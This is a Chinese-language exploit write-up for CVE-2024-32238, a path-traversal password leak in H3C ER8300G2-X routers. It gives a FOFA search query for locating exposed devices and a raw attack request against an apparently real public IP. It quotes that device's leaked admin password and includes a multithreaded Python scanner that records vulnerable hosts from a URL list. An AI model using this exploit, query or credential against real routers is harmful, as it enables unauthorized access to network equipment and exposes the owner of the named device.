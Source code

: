 # CVE-2024-32238 H3C ER8300G2-X-密码泄露漏洞

### 漏洞简介

H3C ER8300G2-X易受不正确访问控制的影响。路由器管理系统的密码可以通过管理系统页面登录界面访问。

### fofa语法

```plain
app="H3C-Ent-Router" && title=="ER8300G2-X系统管理"
```

### 漏洞复现

```plain
GET /userLogin.asp/../actionpolicy_status/../ER8300G2-X.cfg HTTP/1.1
Host: 14.216.242.238:2222
User-Agent: Mozilla/5.0 (X11; CrOS aarch64 15236.9.0) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.0.0 Safari/537.36
Connection: close
Accept-Encoding: gzip
```

![img](https://cdn.nlark.com/yuque/0/2024/png/42783549/1721907021719-6977e6c0-ebb0-4acf-b985-534cdd4bd7f6.png)

其中vtypasswd=Cheng81181852是密码

登录

![img](https://cdn.nlark.com/yuque/0/2024/png/42783549/1721907105631-e1e9d6a9-5232-466a-bbbd-7fe8dddbdafc.png)

![img](https://cdn.nlark.com/yuque/0/2024/png/42783549/1721907068937-50ae90d6-2e6b-4b36-aa03-fd5f2adafaf0.png)

### poc脚本

~~~markdown
import requests,argparse,sys,json
from multiprocessing.dummy import Pool

requests.packages.urllib3.disable_warnings()
GREEN = '\033[92m'  # 输出颜色
RESET = '\033[0m'


def banner():
    test = """
 
██╗  ██╗ █████╗  ██████╗██╗  ██╗    ██████╗ ██╗   ██╗    ███╗   ███╗ █████╗ ███████╗██╗  ██╗ █████╗ 
██║  ██║██╔══██╗██╔════╝██║ ██╔╝    ██╔══██╗╚██╗ ██╔╝    ████╗ ████║██╔══██╗╚══███╔╝██║  ██║██╔══██╗
███████║███████║██║     █████╔╝     ██████╔╝ ╚████╔╝     ██╔████╔██║███████║  ███╔╝ ███████║███████║
██╔══██║██╔══██║██║     ██╔═██╗     ██╔══██╗  ╚██╔╝      ██║╚██╔╝██║██╔══██║ ███╔╝  ██╔══██║██╔══██║
██║  ██║██║  ██║╚██████╗██║  ██╗    ██████╔╝   ██║       ██║ ╚═╝ ██║██║  ██║███████╗██║  ██║██║  ██║
╚═╝  ╚═╝╚═╝  ╚═╝ ╚═════╝╚═╝  ╚═╝    ╚═════╝    ╚═╝       ╚═╝     ╚═╝╚═╝  ╚═╝╚══════╝╚═╝  ╚═╝╚═╝  ╚═╝                     
                                                                                                                    
                                version:1.1.0                     
                                author:mazha.top
"""
    print(test)


def main():
    banner()

    parser = argparse.ArgumentParser(description='CVE-2024-32238 H3C ER8300G2-X-密码泄露漏洞')
    parser.add_argument('-u', '--url', dest='url', type=str, help='Please input link')
    parser.add_argument('-f', '--file', dest='file', type=str, help='File Path')
    args = parser.parse_args()

    if args.url and not args.file:
        poc(args.url)
    elif not args.url and args.file:
        url_list = []
        with open(args.file, "r", encoding="utf-8") as f:
            for url in f.readlines():
                url_list.append(url.strip())
        mp = Pool(100)
        mp.map(poc, url_list)
        mp.close()
        mp.join()
    else:
        print(f"Usage:\n\t python3 {sys.argv[0]} -h")


def poc(target):
    payload_url = '/userLogin.asp/../actionpolicy_status/../ER8300G2-X.cfg'
    url = target + payload_url
    
    headers = {
        'User-Agent':'Mozilla/5.0 (X11; CrOS aarch64 15236.9.0) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.0.0 Safari/537.36',
        'Connection':'close',
        'Accept-Encoding':'gzip'
    }

    proxies = {
        'http':'http://127.0.0.1:8080',
        'https':'http://127.0.0.1:8080',
    }

    try:
        response1 = requests.get(url=url,headers=headers,verify=False,proxies=proxies,timeout=5)

        # 检查响应状态码
        if response1.status_code == 200 and "passwd" in response1.text:
            print(f"{GREEN}[+] 存在密码泄露漏洞！{target}\n{RESET}")
            with open('result.txt', 'a', encoding='utf-8') as fp:
                fp.write(target + '\n')

        else:
            print(f"[-] 不存在密码泄露漏洞!")

    except Exception as e:
        print("[*] 无法访问")

if __name__ == '__main__':
    main()
~~~

### 4.py脚本

```plain
python3 脚本文件名 -u "http://127.0.0.1"  # 测试单个url
python3 脚本文件名 -f url.txt             # 测试多个url
```